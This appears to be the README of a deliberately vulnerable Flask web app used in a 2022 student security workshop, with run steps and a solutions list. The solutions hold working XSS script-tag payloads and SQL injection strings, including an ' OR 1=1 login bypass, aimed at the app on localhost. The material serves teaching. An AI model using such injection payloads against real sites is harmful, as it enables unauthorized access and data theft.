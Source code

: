 # Web-Hacking-2022
Web Hacking demo for SESH, 2022 edition!

## Run

### Windows

```
PS > cd .\web\
PS > $env:FLASK_APP = "app"
PS > $env:FLASK_DEBUG = "true"
PS > python -m flask run
```

OR run app.py

## Solutions

### XSS 1

`/xss1?flavour=chocolate&quantity=%3Cscript%3Ealert(%27ello%27)%3C/script%3E`

### XSS 3

Just post a comment with the contents `<script>alert('xss')</script>`

### SQL 1

Classic payload: login with `' OR 1=1;--`

### SQL 2

Note: this challenge is also technically an IDOR, as if you know the admin's username (admin) you can view their profile.

`http://localhost:5000/sqli2/getuserdata?userid=71PEO4MZZ145ICYR%27%20OR%201=1;--`